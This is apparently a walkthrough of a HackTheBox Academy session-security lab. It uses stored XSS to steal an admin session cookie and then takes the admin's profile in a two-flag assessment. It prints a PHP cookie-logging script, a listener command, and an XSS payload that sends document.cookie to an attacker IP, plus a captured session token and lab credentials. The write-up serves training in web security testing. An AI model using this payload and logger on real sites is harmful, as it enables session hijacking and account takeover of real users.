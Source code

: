 ```yaml
---
title: "[HTB] Session Security"
excerpt: "**Session Security** Module Walkthrough - HackTheBox Academy"
header:
  overlay_image: /assets/images/HTB_Session_Security/banner.png
  teaser: /assets/images/HTB_Session_Security/upper.jpg
  og_image: /assets/images/HTB_Session_Security/upper.jpg
categories:
  - HTB-Academy
tags:
  - HTB-Academy
  - Bug Bounty Hunter
  - Web
  - OWASP TOP 10
layout: single
toc: true
---
```

![image-center](\assets\images\HTB_Session_Security\upper.jpg)

## Module Summary

Any inefficiencies or misconfigurations in the session-handling implementation of a web application, service, or API can have devastating consequences that range from information leakage and inadvertent user actions all the way to Account Takeover (ATO) and remote code execution.

As you can imagine, it is of paramount importance to thoroughly test the session-handling logic of a web application being assessed. That said, testing the robustness of a session-handling implementation is not a small feat. This is because chaining (seemingly unrelated) vulnerabilities is often required to successfully attack a user's session.

Worry not, though; in this module, we will provide you with a highly hands-on experience around attacking a user's session and the possible paths that you can take to achieve that.

In this module, you will have the opportunity to practice manual exploitation of the following:

- Session Hijacking
- Session Fixation
- XSS (Cross-Site Scripting) <-- With a focus on user sessions
- CSRF (Cross-Site Request Forgery)
- Open Redirect <-- With a focus on user sessions
  
We will also discuss remediation guidance regarding the abovementioned vulnerabilities.

## Session Security - Skills Assessment

>**Q. Read the flag residing in the admin's public profile. Answer format: [string]**

<div style="text-align: justify">1. We utilize virtual hosts (vhosts) to house the web applications to simulate a large, realistic environment with multiple webservers. Since these vhosts all map to a different directory on the same host, we have to make manual entries in our /etc/hosts file on the Pwnbox or local attack VM to interact with the lab.</div><br>

![image-center](\assets\images\HTB_Session_Security\Q11\1.png)

<div style="text-align: justify">2. Access to http://minilab.htb.net. First you have to log in with the credentials provided in the statement. Enter the credentials and click on login.</div><br>
```
Email: heavycat106
Password: rocknrol
```
![image-center](\assets\images\HTB_Session_Security\Q11\2.png)


<div style="text-align: justify">3. Create a PHP script that saves the cookie.</div><br>

```sh
nano log.php
```

```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>
```
![image-center](\assets\images\HTB_Session_Security\Q11\3.png)

<div style="text-align: justify">4. Open a listener in the same folder where the PHP script created in the previous step is.</div><br>
```sh
php -S 10.10.15.60:8000
```
![image-center](\assets\images\HTB_Session_Security\Q11\4.png)


<div style="text-align: justify">5. Access the "app" section, enter the following payload in the country field and click on the "Save" button.</div><br>
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://10.10.15.60:8000/log.php?c=' + document.cookie;"></video>
![image-center](\assets\images\HTB_Session_Security\Q11\5.png)

<div style="text-align: justify">6. When you click on save, you are redirected to a section where you can save the data permanently. In the following screenshot it is verified that the app has accepted the payload. Click on Save.</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\6.png)

<div style="text-align: justify">7. Access http://minilab.htb.net/submit-solution and see how the success field is "false".</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\7.png)

<div style="text-align: justify">8. Insert the following link that contains the profile with the payload as a parameter.</div><br>
http://minilab.htb.net/submit-solution?url=http://minilab.htb.net/profile?email=julie.rogers@example.com
![image-center](\assets\images\HTB_Session_Security\Q11\8.png)

<div style="text-align: justify">9. We check the listener and see what looks like a cookie thanks to the payload, the script and the listener.</div><br>
```sh
[Thu Feb  9 11:11:28 2023] 10.129.19.198:37042 [302]: GET /log.php?c=auth-session=s%3AZMEqyRAhF2Ta7gHyxUZCWu4DaPb2_KT0.ES2ciTNMldjUBsKFonTFKF%2B09jHx6I3lIJFfQGjTkmc
```
![image-center](\assets\images\HTB_Session_Security\Q11\9.png)

<div style="text-align: justify">10. In chrome introduce that cookie in storage and update.</div><br>

![image-center](\assets\images\HTB_Session_Security\Q11\10.png)

<div style="text-align: justify">11. The admin profile has been accessed within the app. Click on the "Change Visibility" button.</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\11.png)
<div style="text-align: justify">12. Finally, click on "Make Public!" button.</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\12.png)
<div style="text-align: justify">13. Here we see the first flag and a button to get the second flag. Clicking on the "Flag2" button downloads a pcap file.</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\13.png)

>**Q. Go through the PCAP file residing in the admin's public profile and identify the flag. Answer format: FLAG{string}
wireshark**

<div style="text-align: justify">14. We open Wireshark as "superuser" and click on "Open Capture File". Select the previously downloaded file.</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\14.png)

<div style="text-align: justify">15. Once the file is open, we look for the string "FLAG" in the search engine and the second Flag is obtained.</div><br>
![image-center](\assets\images\HTB_Session_Security\Q11\15.png)